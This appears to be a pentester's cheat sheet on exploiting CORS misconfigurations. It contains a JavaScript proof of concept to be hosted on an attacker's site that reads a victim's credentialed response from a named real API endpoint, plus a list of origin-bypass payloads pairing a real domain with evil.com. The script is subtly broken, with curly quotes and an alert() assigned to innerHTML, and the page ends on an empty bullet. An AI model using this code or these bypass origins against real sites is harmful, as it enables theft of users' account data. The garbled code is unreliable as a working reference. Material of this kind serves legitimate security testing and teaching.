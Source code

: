 ## Introduction 

CORS short of Cross-Origin Resource Sharing is a policy that allows a site to share relevant information to other domains. Misconfiguration might leads to leakage of data to attackers.

## Payloads example

Place following code in the site you control:

```js
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
document.getElementById(“demo”).innerHTML =
alert(this.responseText);
}
};
xhttp.open(“GET”, “https://api.artsy.net/api/user_details/<User-ID>”, true);
xhttp.withCredentials = true;
xhttp.send();
}
```

## Some misconfiguration example

- If you find that ```Access-Control-Allow-Origin: *``` is shown in response, it means that the site allows all domains to access information under this domain;

- Sometimes, if ```Access-Control-Allow-Credentials:true```, it means all response can be shown to request within ```Access-Control-Allow-Origin```. Information includes cookies etc. Thus, in this case, even ```Access-Control-Allow-Origin``` set to company's subdomain, if XSS was founded in other subdomain, it also can lead to data leakage; 

- Sometimes, even if ```Access-Control-Allow-Origin``` was set, placing origin with some domain containing white list domain wordings can also bypass the subject check. (e.g. whitelist: request.com, bypass: attackrequest.com or request.com.attack.com). Some other examples of bypass:

```
*.ubnt.com!.evil.com 
*.ubnt.com".evil.com 
*.ubnt.com$.evil.com 
*.ubnt.com%0b.evil.com 
*.ubnt.com%60.evil.com 
*.ubnt.com&.evil.com 
*.ubnt.com'.evil.com 
*.ubnt.com(.evil.com 
*.ubnt.com).evil.com 
*.ubnt.com*.evil.com 
*.ubnt.com,.evil.com 
*.ubnt.com;.evil.com 
*.ubnt.com=.evil.com 
*.ubnt.com^.evil.com 
*.ubnt.com`.evil.com 
*.ubnt.com{.evil.com 
*.ubnt.com|.evil.com 
*.ubnt.com}.evil.com 
*.ubnt.com~.evil.com
```

- 


